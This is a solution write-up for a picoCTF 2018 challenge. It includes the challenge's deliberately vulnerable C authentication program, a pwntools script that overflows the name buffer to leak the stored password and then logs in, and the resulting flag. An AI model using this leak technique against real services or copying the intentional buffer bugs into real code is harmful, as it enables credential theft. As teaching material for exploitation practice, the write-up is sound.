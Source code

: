 # Problem
Can you authenticate to this [service](https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth) and get the flag? Connect with ```nc 2018shell1.picoctf.com 31045```. [Source](https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth.c).

## Hints:
Are all the system calls being used safely?

Some people can have reallllllly long names you know..

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth
wget https://2018shell1.picoctf.com/static/0bb8663a6d82ba0c5d07f06e357c22ca/auth.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}
```

Our goal is to pass ```if (!strcmp(password_input, password))``` and to call ```flag()```.

We can solve this in few ways:
* We can see that "password.txt" is relative, we can create such file in the home directory, and create soft link to the flag file. No need to leak/guess anything. **Edit: oh damn, we cant... the connection is via netcat**.
* The intended way, we can see that ```password``` comes in memory right after ```name```, if the name will be long enough, the ```strcat``` will override the terminating null, and the ```puts``` printing the name will print the password as well. We can alse see that the password won't change between executions.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

if debug:
  p = process('./auth')
else:
  p = remote('2018shell1.picoctf.com', 31045)

print p.recvuntil('What is your name?')
p.sendline('A' * 250)
p.sendline('BBBB') # Dummy password
pw = p.recvall().split('\n')[2][256 - 250 - 2 :]

log.info('Leaked password: {}'.format(pw))

if debug:
  p = process('./auth')
else:
  p = remote('2018shell1.picoctf.com', 31045)

print p.recvuntil('What is your name?')
p.sendline('A')
print p.recvuntil('Please Enter the Password.')
log.info('Sending password: {}'.format(pw))
p.sendline(pw)

print p.recvall()
```

Flag: picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_d1667872}